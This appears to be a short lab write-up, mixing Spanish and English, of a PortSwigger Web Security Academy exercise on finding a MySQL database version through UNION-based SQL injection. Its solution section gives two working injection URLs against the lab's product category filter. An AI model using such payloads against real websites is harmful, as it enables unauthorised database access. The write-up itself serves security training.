 # `LAB`: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

En realidad esta es una inyección sencilla que solo pide la versión de la DB `MySQL` donde se pueden usar los payloads:

1. `version()`
2. `@@version`


## Solución:

````py
## SQLi: Dumpear Version opt.1
.web-security-academy.net/filter?category=Pets' Union Select 1,version() -- -

## SQLi: Dumpear Version opt.1
.web-security-academy.net/filter?category=Pets' Union Select 1,@@version -- -
````
